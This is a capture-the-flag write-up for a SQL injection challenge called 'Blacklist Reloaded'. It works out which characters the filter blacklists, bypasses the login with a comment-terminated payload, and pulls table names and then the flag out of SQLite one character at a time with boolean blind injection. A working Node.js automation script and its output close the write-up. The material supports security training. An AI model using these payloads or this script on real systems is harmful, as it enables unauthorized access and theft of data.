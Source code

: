 **Name**: Blacklist Reloaded  
**Points**: 600  
**Instructions**: Maybe I'm foolish, maybe I'm blind, thinking I can see through this and see what's behind! Can you get the flag from http://challenges.runesec.com:15123 ?  
**Hint**: Can you leak out any information? You might like it :)  

## Exploration
- We know this is another challenge of SQL injection with a blacklist.  

- We are given a login interface with Username and Password fields. We assume the following query - more or less - is invoked on the login server:  
`SELECT * FROM ??? WHERE username="{sqli input}" AND password="{sqli input}"`  

- We can start by finding what's in the blacklist and what we can actually use.  
*(If a blacklisted term is found in the input, a special page is returned saying that a blacklisted term was used.)*  
Some of the blacklisted semantics: `', ;, =, UNION`  
Some of the semantics we can use: `", OR, AND, EXISTS, SELECT, WHERE, LIKE, %, /*, --`

## Exploitation
We start pretty simple:  
`" OR 1 /*`
- `"` to validly close the opened quotes that expect to contain the username.
- `OR 1` because ORing something TRUE, makes the whole expression to evaluate as TRUE.
- `/*` is a multi-line comment to escape anything that comes after our crafted query and avoid errors.  

This works, kinda. We go through the login wall successfully, but the page we land reads:  
`Well done, but the flag is not here`

This will prove helpful. We know whatever statement we put after `OR`, will be true only if we land on this page, otherwise we'll get to a page that reads `Login failed`.

### Finding table names:
From https://www.sqlite.org/faq.html:
```
Every SQLite database has an SQLITE_MASTER table that defines the schema for the database.  
The SQLITE_MASTER table looks like this:

CREATE TABLE sqlite_master (
  type TEXT,
  name TEXT,
  tbl_name TEXT,
  rootpage INTEGER,
  sql TEXT
);
For tables, the type field will always be 'table' and the name field will be the name of the table.
```
We can start discovering table names as follows:  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "a%") /*` FAIL  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "b%") /*` FAIL  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "c%") /*` FAIL  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "d%") /*` FAIL  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "e%") /*` FAIL  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "f%") /*` SUCCESS  
Great! We now know there's a table that starts with the letter `f`.  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "fa%") /*` FAIL  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "fb%") /*` FAIL  
...  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "fl%") /*` SUCCESS   
Great! We now know there's a table that starts with `fl`.  

Repeating the process, for the rest of the table name we discover a table named `flagHERE`.  
*(We can figure out when we've discovered the full table name when we exhaust all the possible characters to be appended to the current discovered name, but they all fail)*

We guess there's a column named `flag` in table `flagHERE` and we can use the same methodology as above to discover the flag, one character at a time.

## Solution 
```
var axios = require('axios');

var URL         = 'http://challenges.runesec.com:15123/login.php';
var LEN_FLAG    = 32 + 4 + 2;
var SUCCESS_MSG = 'Well done, but the flag is not here'

var d = ('0123456789abcdef' + 'lg{}').split('');

var step = function(i, c, flag) {
    if (i >= LEN_FLAG) return;
    if (c >= d.length) return;
    var fflag = flag + d[c];
    var query = '" OR EXISTS(SELECT flag FROM flagHERE WHERE flag LIKE "' + fflag + '%") /*';
    axios.post(URL, 'username=' + query, { headers: {'Content-Type': 'application/x-www-form-urlencoded' }})
    .then(function(res) {
      var success = res.data.indexOf(SUCCESS_MSG) !== -1;
      if (success) {
        console.log(fflag);
        step(i + 1, 0, fflag);
      } else {
        step(i, c + 1, flag);
      }
    });
}
step(0, 0, '');
```
Output:
```
f
fl
fla
flag
flag{
flag{c
flag{c6
flag{c6a
flag{c6a7
flag{c6a7e
flag{c6a7ee
flag{c6a7eee
flag{c6a7eee6
flag{c6a7eee68
flag{c6a7eee68d
flag{c6a7eee68d1
flag{c6a7eee68d18
flag{c6a7eee68d185
flag{c6a7eee68d1851
flag{c6a7eee68d18518
flag{c6a7eee68d185186
flag{c6a7eee68d1851866
flag{c6a7eee68d18518663
flag{c6a7eee68d18518663b
flag{c6a7eee68d18518663b7
flag{c6a7eee68d18518663b76
flag{c6a7eee68d18518663b76d
flag{c6a7eee68d18518663b76da
flag{c6a7eee68d18518663b76dab
flag{c6a7eee68d18518663b76dab1
flag{c6a7eee68d18518663b76dab17
flag{c6a7eee68d18518663b76dab17f
flag{c6a7eee68d18518663b76dab17f9
flag{c6a7eee68d18518663b76dab17f99
flag{c6a7eee68d18518663b76dab17f990
flag{c6a7eee68d18518663b76dab17f990a
flag{c6a7eee68d18518663b76dab17f990a5
flag{c6a7eee68d18518663b76dab17f990a5}
```
